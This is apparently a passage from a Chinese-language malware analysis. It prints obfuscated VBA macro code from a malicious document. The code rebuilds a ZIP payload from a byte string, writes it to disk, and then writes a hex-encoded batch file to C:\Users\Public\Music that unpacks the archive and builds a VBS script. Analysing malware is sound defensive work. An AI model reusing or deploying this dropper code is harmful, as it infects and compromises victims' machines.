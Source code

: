```vbscript
lgbtzHbSL8 = ("*141**179**126**187**85**5**251**157**255**27**80**75**1**2**20**0**20**0**0**0**8**0**188**24**110**85**249**118**118**174**75**26**0**0**216**89**0**0**8**0**0**0**0**0**0**0**0**0**0**0**0**0**0**0**0**0**99**111**109**100**46**112**100**102**80**75**5**6**0**0**0**0**1**0**1**0**54**0**0**0**113**26**0**0**0**0")

    Dim nFq9wNvYtPrR3JkMkWFmgLxESGaRbC8S6HwGLgYCx5HuRiJCku() As String
    Dim DZkW7ufvS8XPDDn6DcNjdTw7LKPju5MHafmWn2ZGdhnqLzRc4d() As Byte

    nFq9wNvYtPrR3JkMkWFmgLxESGaRbC8S6HwGLgYCx5HuRiJCku = Split(lgbtqpKM39 &amp; lgbt5gwIdE &amp; lgbtchFy25 &amp; lgbt7nkEqi &amp; lgbt3n5kSb &amp; lgbtmGiAAY &amp; lgbtjWKMbr &amp; lgbt2uyJ9e &amp; lgbt9yb7p1 &amp; lgbtvN4jB1 &amp; lgbtEPaxGR &amp; lgbtq1K5PE &amp; lgbtildg1X &amp; lgbtZkhmJB &amp; lgbta2gYZb &amp; lgbte5KLMf &amp; lgbtzJKofS &amp; lgbtr4gygt &amp; lgbtZWyVDY &amp; lgbtkNnoUJ &amp; lgbtqfKOYg &amp; lgbtCtokOf &amp; lgbttYaFEA &amp; lgbtZ63Qyb &amp; lgbtYCGqMG &amp; lgbtZGNM0X &amp; lgbtSBr7aI &amp; lgbtJmWMfx &amp; lgbt4K5b4H &amp; lgbtiPwpPN &amp; lgbtWdtpAA &amp; lgbtzHbSL8, "**")

    Dim NRQq2hWtCt6Ebka5htcS7MLxP25LZPFZYMAgCGRXDcmG3gkk2F As Double
    NRQq2hWtCt6Ebka5htcS7MLxP25LZPFZYMAgCGRXDcmG3gkk2F = 0
    For Each vl In nFq9wNvYtPrR3JkMkWFmgLxESGaRbC8S6HwGLgYCx5HuRiJCku
        ReDim Preserve DZkW7ufvS8XPDDn6DcNjdTw7LKPju5MHafmWn2ZGdhnqLzRc4d(NRQq2hWtCt6Ebka5htcS7MLxP25LZPFZYMAgCGRXDcmG3gkk2F)
        DZkW7ufvS8XPDDn6DcNjdTw7LKPju5MHafmWn2ZGdhnqLzRc4d(NRQq2hWtCt6Ebka5htcS7MLxP25LZPFZYMAgCGRXDcmG3gkk2F) = CByte(vl)
        NRQq2hWtCt6Ebka5htcS7MLxP25LZPFZYMAgCGRXDcmG3gkk2F = NRQq2hWtCt6Ebka5htcS7MLxP25LZPFZYMAgCGRXDcmG3gkk2F + 1
    Next

    Open UmXbqkZjQEf3zX2dNgkhaL6Ujf7T8TwThtCGkfindUi35rqBiC For Binary Access Write As #1           
         Put #1, , DZkW7ufvS8XPDDn6DcNjdTw7LKPju5MHafmWn2ZGdhnqLzRc4d
    Close #1
    On Error Resume Next

    Call file
End Sub

```

#### **file 函数分析：**

该函数中调用的 TringTring 为自定义函数，具体解释在后面，作用是把参数的 16 进制字符按 2 个 16 进制转换成 1 个 ASCII 字符。

```vbscript
Sub file()

Set fso = CreateObject("Scripting.FileSystemObject")
If Not fso.FolderExists(TringTring("433a5c55736572735c5075626c69635c4d757369635c")) Then
fso.CreateFolder (TringTring("433a5c55736572735c5075626c69635c4d757369635c"))
End If
Set request = fso.CreateTextFile(TringTring("433a5c55736572735c5075626c69635c4d757369635c7062732e747874"))
request.WriteLine (TringTring("404543484f206f6666"))
request.WriteLine (TringTring("7365746c6f63616c"))
request.WriteLine (TringTring("4344202f6420257e647030"))
request.WriteLine (TringTring("43414c4c203a556e5a697046696c652022433a5c55736572735c5075626c69635c4d75736963222022433a5c55736572735c5075626c69635c4d757369635c636f6d642e7a697022"))
request.WriteLine (TringTring("45584954202f62"))
request.WriteLine (TringTring("3a556e5a697046696c65203c45787472616374546f3e203c6e65777a697066696c653e"))
request.WriteLine (TringTring("534554207662733d222574656d70255c5f2e76627322"))
request.WriteLine (TringTring("49462045584953542025766273252044454c202f66202f71202576627325"))
request.WriteLine (TringTring("3e2576627325204543484f205365742066736f203d204372656174654f626a6563742822536372697074696e672e46696c6553797374656d4f626a6563742229"))
```